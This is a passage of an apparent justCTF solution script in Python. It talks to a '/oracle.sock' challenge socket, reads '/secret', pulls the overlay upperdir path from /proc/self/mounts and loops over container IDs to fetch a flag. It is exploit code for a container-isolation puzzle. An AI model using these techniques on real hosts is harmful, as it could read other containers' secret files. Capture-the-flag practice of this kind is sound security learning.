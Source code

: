 ```  
'(' in line and line[-1] == ')')  
   return cgroups

def filter_container_ids(iterable):  
   return [  
       i for i in iterable if re.match(CONTAINER_ID_REGEX, i)  
   ]

all_container_ids = filter_container_ids(get_container_ids())

def attempt(target_id):  
   sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)  
   sock.connect('/oracle.sock')

   print(sock.recv(864))  
   sock.sendall((cpumodel + '\n').encode())  
   print(sock.recv(len(b'That was easy :)\n[Level 2] What is your *container
id*?\n')))  
   sock.sendall((my_container_id + '\n').encode())  
   print(sock.recv(500))

   time.sleep(1)  
   with open('/secret') as f:  
       secret = f.read()  
   print("READ SECRET: %s" % secret)  
   sock.sendall((secret + '\n').encode())  
   print(sock.recv(500))

   with open('/proc/self/mounts') as f:  
       mounts = f.read().splitlines()  
       upperdir = [i for i in mounts if 'upperdir=' in i][0]  
       upperdir = upperdir[upperdir.index('upperdir=')+len('upperdir='):]  
       upperdir = upperdir.split(',')[0]

   path = upperdir+'/secret'  
   print("PATH IS: %s" % path)

   sock.sendall((path + '\n').encode())  
   print(sock.recv(500))

   sock.sendall((target_id + '\n').encode())  
   print(sock.recv(500))  
   sock.sendall((target_id + '\n').encode())  
   flag = sock.recv(500)  
   if b'justCTF' in flag:  
       print(flag)  
       sys.exit(0)

for container_id in all_container_ids:  
   attempt(container_id)  
```  
  